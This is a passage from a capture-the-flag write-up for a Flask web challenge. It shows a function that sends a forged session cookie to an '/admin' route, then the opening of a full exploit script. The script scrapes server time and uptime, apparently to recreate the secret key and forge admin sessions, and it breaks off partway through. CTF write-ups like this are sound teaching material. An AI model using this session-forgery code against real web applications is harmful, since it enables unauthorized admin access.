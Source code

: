 ### Step 4: Access the Admin Route with the Forged Session

```python
def get_flag(session_cookie):
    cookies = {
        'session': session_cookie
    }

    admin_url = f'{base_url}/admin'
    admin_response = requests.get(admin_url, cookies=cookies)

    if admin_response.status_code == 200:
        print('Flag:', admin_response.text)
    else:
        print('Failed to retrieve flag, status code:', admin_response.status_code)
        print('Response:', admin_response.text)
```
- Sends a GET request to `/admin` with the forged session cookie.
- If successful, the server responds with the flag.

### Complete Exploit Script

Full script:

```python
#!/usr/bin/env python3

import requests
from datetime import datetime, timedelta
import hashlib
from flask import Flask
from flask.sessions import SecureCookieSessionInterface
import uuid
import re
from bs4 import BeautifulSoup

# Target server URL
base_url = 'http://chal.competitivecyber.club:9999'

# Step 1: Retrieve server status
def get_server_status():
    status_url = f'{base_url}/status'
    response = requests.get(status_url)

    if response.status_code != 200:
        print('Failed to retrieve server status')
        exit()

    # Parse server time and uptime from the response
    soup = BeautifulSoup(response.text, 'html.parser')
    text = soup.get_text()

    # Extract uptime and current time
    uptime_match = re.search(r'Server uptime: ([\d:]+)', text)
    current_time_match = re.search(r'Server time: (\d{4}-\d{2}-\d{2} \d{2}:\d{2}:\d{2})', text)

    if not uptime_match or not current_time_match:
        print('Failed to parse server status')
        exit()

    uptime_str = uptime_match.group(1)
    current_time_str = current_time_match.group(1)

    # Convert uptime to timedelta
    time_parts = uptime_str.split(':')
```